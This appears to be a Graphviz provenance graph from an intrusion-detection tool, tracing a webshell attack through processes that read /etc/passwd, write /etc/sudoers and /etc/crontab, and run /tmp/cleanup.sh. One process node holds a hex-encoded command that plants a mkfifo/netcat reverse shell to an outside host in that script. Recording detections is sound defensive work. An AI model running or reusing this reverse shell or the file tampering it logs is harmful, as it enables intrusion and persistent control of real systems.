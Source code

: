 digraph graph1 {
node [shape = Mrecord];
table183 [label = "{<head>processname: cat | pid: 1383 | cmdline: cat /etc/passwd | starttime: 1618986693208000000 | enddtime: -1 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT8 The uploaded file is read.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986693208000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000 | label: PT2 The process read sensitive information. timestamp: 1618985500876000000}", color = red];
table41 [shape = record, label = "{<head>filename: /etc/passwd | label: FT2 The file is sensitive as default. timestamp: 1618985500876000000 | label: FS3 passwd timestamp: 1618985500876000000}"];
table183 -> table41[label = "action: 0  FS3->PS3"];
table157 [shape = record, label = "{<head>filename: /tmp/cleanup.sh | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1653025665015 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}"];
table162 -> table157[label = "action: 1  PT9->FT9"];
table183 -> table157[label = "action: 0  FT9->PT8"];
table181 [shape = record, label = "{<head>filename: /etc/sudoers | label: FS2 sudoers timestamp: 1618986648760000000 | label: FT2 The file is sensitive as default. timestamp: 1618986648760000000 | label: FS5 high price file timestamp: 1618986166123000000 | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table183 -> table181[label = "action: 1  FS2->PS2"];
table153 [shape = record, label = "{<head>filename: /etc/crontab | label: FS1 crontab timestamp: 1618986166123000000 | label: FT9 The File is written by webshell. timestamp: 1653025665015}"];
table183 -> table153[label = "action: 1  FS1->PS1"];
table183 -> table41[label = "action: 0  FT2->PT2"];
node [shape = record];
table172 [label = "{<head>processname: sh | pid: 1378 | cmdline: /bin/sh | starttime: 1618986602273000000 | enddtime: -1 | uuid: 1378}"];
table172 -> table183[label = "event: Create process"];
node [shape = record];
table165 [label = "{<head>processname: sh | pid: 1374 | cmdline: /bin/sh /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1374}"];
table165 -> table172[label = "event: Create process"];
node [shape = record];
table163 [label = "{<head>processname: sh | pid: 1373 | cmdline: /bin/sh -c /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: -1 | uuid: 1373}"];
table163 -> table165[label = "event: Create process"];
}
